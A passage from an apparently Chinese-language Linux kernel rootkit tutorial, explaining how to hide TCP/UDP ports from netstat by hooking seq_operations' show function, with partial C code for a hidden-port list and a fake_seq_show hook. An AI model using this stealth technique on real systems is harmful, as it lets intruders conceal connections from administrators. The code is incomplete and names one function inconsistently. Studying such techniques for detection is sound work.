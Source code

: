 seq_operations定义的结构体为

```c
struct seq_operations {
	void * (*start) (struct seq_file *m, loff_t *pos);
	void (*stop) (struct seq_file *m, void *v);
	void * (*next) (struct seq_file *m, void *v, loff_t *pos);
	int (*show) (struct seq_file *m, void *v);
};
```

seq_operations的show函数即为netstat要输出的信息，我们只需要将该函数的 hook掉，在hook之前需要先保存show函数的地址，对应的函数为set_seq_opeartions

```c
void set_seq_operations(const char* open_path,struct seq_operations** operations); // open_path是打开的序列文件，operations是要保存的show函数的真实地址
```

我们在全局变量中声明了一个链表，变量名为hidden_port_list_head，它的作用为存储需要被隐藏的端口的信息，当想隐藏端口时，调用**hide_connect**函数，它的定义为

```c
void hide_connect(int type, int port)
```

其中type为网络类型(tcp/udp/tcp6/udp6)，port为端口号，该函数会将需要隐藏的端口添加到链表上。

```c
    node = kmalloc(sizeof(struct port_node), GFP_KERNEL);
    node->port = port;
    node->type = type;

    // 向链表中添加节点
    list_add_tail(&node->list, &hidden_port_list_head);
```

当不想隐藏该端口时，使用**hide_unconnect**函数将该节点从链表中删除

```c
void unhide_connect(int type, int port){
    list_for_each_entry_safe(entry, next_entry, &hidden_port_list_head, list){
        if (entry->port == port && entry->type == type){
            pr_info("Unhiding: %d", port);
            list_del(&entry->list); // 将要隐藏的节点从链表中删除
            kfree(entry);
            return;
        }
    }
}
```

隐藏端口的链表会在我们定义的hook函数中用到

首先要让定义的hook函数的参数与需要被hook的函数参数相同

```c
int fake_seq_show(struct seq_file *seq, void *v)
```
